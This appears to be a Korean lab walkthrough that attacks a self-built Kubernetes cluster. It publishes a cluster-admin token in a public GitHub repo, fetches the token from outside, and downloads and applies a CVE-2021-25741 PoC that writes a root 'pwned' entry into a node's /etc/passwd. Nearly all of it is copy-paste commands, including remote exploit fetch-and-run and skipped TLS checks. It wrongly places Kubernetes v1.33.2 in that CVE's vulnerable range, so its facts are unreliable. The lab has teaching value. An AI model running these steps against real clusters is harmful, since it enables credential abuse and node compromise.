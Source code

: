 # 토큰 유출 & 외부-침투 시나리오

이 문서는 **Kubernetes v1.33.2** 클러스터(마스터 1, 워커 3)를 대상으로, 외부에서 인증 토큰 유출 → API 침투 → CVE-2021-25741 PoC 실행 → 노드 권한 획득까지의 전 과정을 단계별로 설명합니다.

---

## 1. 클러스터 환경

* **노드 구성**

  * `k8s-master` (Control-Plane)
  * `k8s-work1` / `k8s-work2` / `k8s-work3` (Worker-node)
* **버전**: Kubernetes v1.33.2 (CSI SubPath CVE-2021-25741 취약 범위 포함)

---

## 2. 사전 준비 (마스터 VM)

1. **서비스어카운트·토큰 생성** (24h 만료)

   ```bash
   kubectl -n kube-system create sa demo-leak
   kubectl create clusterrolebinding demo-leak \
     --clusterrole=cluster-admin \
     --serviceaccount=kube-system:demo-leak

   # v1.24+ 클러스터에서
   kubectl -n kube-system create token demo-leak --duration=24h \
     > /tmp/leak.token
   ```
2. **방화벽 규칙 만들기** (API 서버 6443 열기)

   * GCP 콘솔 ▶ VPC 네트워크 ▶ 방화벽 규칙 ▶ Create

     * Name: `allow-demo-6443`
     * Direction: Ingress
     * Action: Allow
     * Targets: All instances
     * Source IP ranges: `<YOUR_MAC_IP>/32`
     * Protocols and ports: `tcp:6443`
3. `/tmp/leak.token` 내용 확인

   ```bash
   cat /tmp/leak.token
   ```

---

## 3. 토큰 유출 시뮬레이션 (GitHub)

1. **새 레포** `demo-leak` 생성 (Public)
2. `/tmp/leak.token` 파일을 `README.md`에 붙여 커밋 & 푸시

   ```bash
   cd ~/demo-leak
   echo "## 토큰 유출 테스트" > README.md
   cat /tmp/leak.token >> README.md
   git add README.md
   git commit -m "leak kube token"
   git push origin main
   ```

---

## 4. 외부 PC에서 침투 테스트

### Mac OS 환경

터미널에서 순서대로 복붙:

```bash
# 1) kubectl 설치
brew install kubectl

# 2) 환경변수 설정
TOKEN="$(curl -s https://raw.githubusercontent.com/<USER>/demo-leak/main/README.md | tail -1)"
API="https://34.64.60.22:6443"

# 3) 외부 접속 확인
kubectl --token "$TOKEN" \
        --server "$API" \
        --insecure-skip-tls-verify \
        get ns

# 4) PoC YAML 가져와 배포
curl -L -o exploit.yaml \
  https://raw.githubusercontent.com/zerosam/CVE-2021-25741-PoC/main/exploit.yaml
kubectl --token "$TOKEN" --server="$API" \
        --insecure-skip-tls-verify apply -f exploit.yaml

# 5) 공격 로그 실시간 보기
kubectl --token "$TOKEN" --server="$API" \
        --insecure-skip-tls-verify logs -n poc -l app=exploit -f
# → [EXPLOIT] wrote 'pwned' to /host/etc/passwd

# 6) 노드 뚫림 증명
ssh ubuntu@10.178.0.4 "grep pwned /etc/passwd"
# → pwned:x:0:0:...
```

---

## 5. 정리 (Clean-up)

```bash
# Mac에서 PoC 삭제
kubectl --token "$TOKEN" --server "$API" \
        --insecure-skip-tls-verify delete -f exploit.yaml

# 마스터 VM에서 네임스페이스·토큰·방화벽 삭제
kubectl delete ns poc
kubectl -n kube-system delete sa demo-leak
kubectl delete clusterrolebinding demo-leak

# GCP 콘솔 또는 Cloud Shell에서
# gcloud compute firewall-rules delete allow-demo-6443
```

---

